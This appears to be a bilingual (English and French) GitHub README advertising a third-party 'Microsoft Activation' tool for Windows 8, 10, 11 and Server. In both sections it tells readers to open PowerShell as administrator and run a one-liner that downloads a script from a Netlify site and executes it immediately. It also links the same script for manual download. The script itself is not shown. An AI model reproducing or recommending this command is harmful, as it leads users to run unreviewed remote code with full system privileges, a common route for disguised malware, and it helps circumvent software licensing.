 # Microsoft Activation 2025/2026 by Hicham94460

**Credit to Hicham94460. All versions of Windows 8, 10, 11, and Windows Server are supported.**

---

### 1. To launch activation, open PowerShell as administrator and copy this command :

```powershell
irm https://office-windows-2025-2026.netlify.app/script.ps1 | iex
```

> **Note:** This command downloads and executes the script, so only run it if you trust the site.

---

### 2. You can also **download the script manually** :

[📥 Download the PowerShell script (.ps1)](https://office-windows-2025-2026.netlify.app/script.ps1)

Then, right-click on the downloaded file and select “Run with PowerShell”.

---

#### Credit:  
[https://github.com/Hicham94460/activation-windows-Version-of-2025.2026 (and older)](https://github.com/Hicham94460/activation-windows-Version-of-2025.2026)

---


# Activation Microsoft 2025/2026 by Hicham94460

**Crédité à Hicham94460. Toutes les versions de Windows 8, 10, 11, et Windows Server sont prises en charge.**

---

### 1. Pour lancer l’activation, ouvrez PowerShell en tant qu’administrateur et copiez la commande :

```powershell
irm https://office-windows-2025-2026.netlify.app/script.ps1 | iex
```

> **Note :** Cette commande télécharge et exécute le script, il est donc impératif de ne la lancer que si vous faites confiance au site.

---

### 2. Vous pouvez aussi **télécharger le script manuellement** :

[📥 Télécharger le script PowerShell (.ps1)](https://office-windows-2025-2026.netlify.app/script.ps1)

Ensuite, faites un clic droit sur le fichier téléchargé et « Exécuter avec PowerShell ».

---

#### Crédit :  
[https://github.com/Hicham94460/activation-windows-Version-of-2025.2026 (and older)](https://github.com/Hicham94460/activation-windows-Version-of-2025.2026)
